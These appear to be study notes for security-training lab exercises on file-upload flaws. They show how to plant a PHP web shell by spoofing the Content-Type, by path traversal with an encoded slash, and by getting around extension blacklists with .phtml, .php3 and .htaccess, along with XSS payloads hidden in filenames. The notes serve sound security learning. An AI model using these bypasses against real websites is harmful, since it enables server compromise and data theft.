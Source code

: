 •	Lab 2: Web shell upload via Content-Type restriction bypass
o	Here, It shows the error file type “application/octet-stream”
o	Intercept the Request of Uploading
	For POST /my-account/avatar
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
o	Here Content-Type is application/octet-stream, Go to google search Content Type for jpg,
	Extension: .jpeg , .jpg
	Kind of document: JPEG images
	MIME Type: image/jpeg
o	Replace “application/octet-stream”
	Content-Type: application/octet-stream
o	With “image/jpeg”
	Content-Type: image/jpeg
o	Send Request, Reload page, Click ‘Open Image in New Tab’
o	Will see the result
	RBuOI7i3kguvRRC6uhYFaSrHDCWvGTXT

•	Lab 3: Web shell upload via path traversal
o	Here, php file can be uploaded but, won’t be execute. Can be see its source code.
	Bcz, suppose developers added .htaccess file in this path, and .htaccess file treat every file as image file. So that other file be show as image.
o	.htaccess file is used to primarily setup rewrite rules to control the way your site is accessed.
o	Solution: Can upload file into another directory where .htaccess file is not present.
o	For POST /my-account/avatar
	We can put ../ before shell.php and encode / in url
	filename="../shell.php"  filename=".. %2fshell.php"
o	shell.php
	<?php echo file_get_contents('/home/carlos/secret'); ?>
o	New Path:
	web-security-academy.net/files/avatars/..%2fshell.php
	If we remove “/avatars” it will still work
	web-security-academy.net/files/shell.php

•	Lab 4: Web shell upload via extension blacklist bypass
o	Here we can upload the file but won’t get execute here.
o	So, we can try XSS. Upload the shell.php file, Send request to Repeater.
o	Rename .php to .jpg and Send Request.
	filename="shell.jpg"
o	Reload the page and View Page Source, Find shell.jpg file
	<img src="/files/avatars/shell.jpg" class=avatar>
o	Can make XSS Payload:
	“><script>alert(1)</script>
	filename=’”> <script>alert(1)</script>’ (Replaced“”=‘’)
o	And Send Request. We will get Popup.
o	So, We can upload only .jpg extension.
o	It Could Be a case of Blacklisting and Whitelisting
	Blacklisting: Selected keywords are only block.
	If Developers added .php or .html, that mean you can use .anything expect .php and .html
	Whitelisting: Selected keywords are only allowed.
	If developers added .png or .jpg, means u only can use these both extensions, not others.
o	Here, try to change .php to .php2
	filename=“shell.php2”, doesn’t work, change version
	filename=”shell.php3” or try till php7, php7 is latest
o	We also can try .html files.
	code will be change <script>alert(1)</script>
o	Try shell.phtml
	<?php phpinfo() ?> 		Its worked.
o	If everything is blacklisted then we can upload .htaccess, so it will treat every file as php file.
	filename=“.htaccess”
	Content-Type: text/plain